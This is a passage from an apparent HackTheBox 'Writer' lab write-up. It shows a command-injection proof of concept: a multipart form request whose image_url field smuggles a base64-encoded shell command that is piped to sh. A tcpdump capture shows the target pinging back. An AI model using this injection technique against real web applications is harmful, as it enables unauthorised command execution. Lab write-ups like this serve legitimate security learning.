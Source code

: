 ```console
Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/kali.jpg;echo 'cGluZyAtYyAxIDEwLjEwLjE0LjE0Cg==' | base64 -d | sh;
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="content"

im qwe yes
-----------------------------118533453010020168263738670579--
```

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:39:49.013364 IP 10.10.11.101 > 10.10.14.14: ICMP echo request, id 3, seq 1, length 64
03:39:49.013406 IP 10.10.14.14 > 10.10.11.101: ICMP echo reply, id 3, seq 1, length 64
03:39:49.053685 IP 10.10.11.101 > 10.10.14.14: ICMP echo request, id 4, seq 1, length 64
03:39:49.053713 IP 10.10.14.14 > 10.10.11.101: ICMP echo reply, id 4, seq 1, length 64
```

**Exploit**:

![image-20240206205816138](./Writer.assets/image-20240206205816138.png)

```console
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="author"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="title"

im qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="tagline"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image"; filename=""
Content-Type: image/png

```
